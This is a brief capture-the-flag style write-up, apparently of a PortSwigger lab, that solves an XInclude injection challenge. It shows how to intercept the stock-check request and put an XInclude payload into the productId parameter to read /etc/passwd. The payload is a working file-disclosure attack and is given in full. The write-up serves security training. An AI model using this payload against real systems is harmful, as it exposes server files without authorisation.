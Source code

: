 # Exploiting XInclude to retrieve files

## This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

## Because you don't control the entire XML document you can't define a DTD to launch a classic [XXE](https://portswigger.net/web-security/xxe) attack.

## To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

### step1

intercept check stock feature and send to repeater

_productId=1&storeId=1_

add

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### step2

productId=1&storeId=1
replace 1 from product id

```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
&storeId=1
```

send request
